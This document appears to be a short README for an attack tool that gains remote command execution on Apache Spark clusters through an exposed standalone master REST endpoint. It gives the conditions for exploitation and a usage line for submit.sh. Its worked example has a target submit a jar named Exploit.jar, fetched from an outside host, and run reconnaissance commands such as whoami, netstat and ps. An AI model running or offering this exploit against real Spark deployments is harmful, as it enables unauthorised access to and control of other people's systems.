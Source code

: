 # Remote Command Execution Over Spark

## Conditions
1. Spark is running on Standalone Mode.
2. REST URL of Master is accessible.

## How to use

```bash
./submit.sh spark_rest_url spark_version jar_url commands
```

### Example

```bash
./submit.sh \
1.1.1.1:6066 \
2.2.0 \
http://2.2.2.2/Exploit.jar \
"whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
```

### Result
![](media/15133242895615.png)

![](media/15133243117653.png)

![](media/15133243161989.jpg)

Good Luck!
![](media/15133243206133.jpg)
